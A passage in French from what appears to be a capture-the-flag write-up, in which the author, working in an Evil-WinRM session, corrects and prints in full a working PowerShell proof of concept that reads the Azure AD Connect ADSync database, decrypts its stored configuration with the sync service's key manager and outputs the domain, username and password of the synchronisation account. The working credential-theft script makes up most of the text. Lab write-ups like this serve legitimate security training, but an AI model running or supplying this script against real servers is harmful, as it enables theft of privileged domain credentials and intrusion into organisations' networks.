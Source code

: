 En utilisant le script, on remarque qu'il ne fonctionne pas. Les lignes de code permettant la connection à la base de données semblent incorrectes :
```bash
*Evil-WinRM* PS C:\Users\mhope\Documents> $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
```

En cherchant sur internet, j'ai pu corriger la ligne de code permettant la connexion à la bdd. De plus, j'ai pu remarquer certaines erreurs avec des guillemets dans un format suspect. J'ai bien remplacé les guillemets par "'" ou '"'.

```bash
Write-Host "AD Connect Sync Credential Extract POC"

$SQLServer = "127.0.0.1"
$SQLDBName = "ADSync"
$client = New-Object System.Data.SqlClient.SqlConnection  
$client.ConnectionString = "Server = $SQLServer; Database = $SQLDBName; Integrated Security = True"
$client.Open()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

Write-Host $decrypted

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
